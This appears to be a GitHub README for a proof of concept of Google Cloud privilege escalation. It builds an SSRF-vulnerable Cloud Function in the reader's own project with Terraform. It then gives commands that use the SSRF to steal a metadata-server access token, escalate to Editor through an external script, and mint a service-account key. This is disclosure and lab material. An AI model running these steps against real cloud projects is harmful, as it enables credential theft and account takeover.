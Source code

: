 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and choose it as current working one.
2. Enable [Cloud Resourse Manager API](https://console.cloud.google.com/apis/library/cloudresourcemanager.googleapis.com) for your project.
3. Open Cloud Shell and ensure that the current project is the new created one.
4. Download Terraform script and setup a vulnerable to SSRF Cloud Function:
```bash
git clone https://github.com/Horlad/signBlob_PrivEsc_PoC.git
cd signBlob_PrivEsc_PoC/terraform
terraform init -upgrade
terraform apply
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```bash
curl https://YOUR.CLOUD.FUNCTION.DOMAIN/?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token&auth=Metadata-Flavor:%20Google
```
2. The Terraform output you can also find `App Engine` and `Compute Engine` default service accounts which were created automatically during the Cloud Function creation without explicit instructions. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).
3. To ensure that you obtained the priviliged service account, generate new service account key via next `gcloud` command:
```bash
gcloud iam service-accounts keys create service_account_key.json \
    --iam-account=[DEFAULT_SERVICE_ACCOUNT_EMAIL] --access-token-file=[FILE_WITH_TOKEN]
```
